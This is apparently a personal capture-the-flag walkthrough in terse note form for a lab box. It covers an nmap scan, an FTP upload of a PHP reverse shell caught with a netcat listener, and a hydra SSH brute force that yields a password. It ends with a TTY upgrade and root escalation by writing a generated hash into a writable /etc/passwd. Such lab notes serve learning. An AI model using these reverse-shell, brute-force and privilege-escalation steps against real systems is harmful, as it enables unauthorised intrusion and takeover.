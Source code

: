 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

# Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv
ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir

cd webalizer

put getin.php

bye

## Run reverseshell:

- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php

hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62

login: jack   password: qwertyuiop

goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:
	python2 -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	press CTRL + Z
	stty raw -echo;fg
- open new terminal: run another remote command
boom! get the jack shell

or

ssh jack@10.10.233.62 

run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify

ls  -al  /etc/passwd

or

sudo -l

generate encryted password: openssl passwd [your password]

nano  /etc/passwd - paste the passwd on x

su root


